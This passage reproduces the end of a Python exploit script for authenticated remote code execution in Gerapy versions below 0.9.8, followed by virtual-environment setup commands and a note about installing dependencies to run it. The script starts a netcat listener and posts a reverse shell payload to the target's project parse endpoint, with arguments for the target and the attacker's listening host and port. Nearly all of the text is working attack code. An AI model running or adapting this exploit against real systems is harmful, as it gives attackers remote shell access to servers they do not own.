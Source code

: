 ```
		print("[*] Found ID of the project: ", id)
		time.sleep(1)

		#netcat listener
		print("[*] Setting up a netcat listener")
		listener = subprocess.Popen(["nc", "-nvlp", self.localport])
		time.sleep(3)

		#exec the payload
		print("[*] Executing reverse shell payload")
		print("[*] Watchout for shell! :)")
		r5 = r.post(url + "/api/project/" + str(id) + "/parse", data=payload, headers=auth_token, allow_redirects=True)
		listener.wait()

		if (r5.status_code == 200):
			print("[*] It worked!")
			listener.wait()
		else:
			print("[!] Something went wrong!")
			listener.terminate()

def get_args():
	parser = argparse.ArgumentParser(description='Gerapy < 0.9.8 - Remote Code Execution (RCE) (Authenticated)')
	parser.add_argument('-t', '--target', dest="url", required=True, action='store', help='Target IP')
	parser.add_argument('-p', '--port', dest="target_port", required=True, action='store', help='Target port')
	parser.add_argument('-L', '--lh', dest="localhost", required=True, action='store', help='Listening IP')
	parser.add_argument('-P', '--lp', dest="localport", required=True, action='store', help='Listening port')
	args = parser.parse_args()
	return args

args = get_args()
target_ip = args.url
target_port = args.target_port
localhost = args.localhost
localport = args.localport

exp = Exploit(target_ip, target_port, localhost, localport)
exp.exploitation()
```

```
python3 -m venv venv
source venv/bin/activate
```

now that i can run python, i will pip install dependencies as needed...
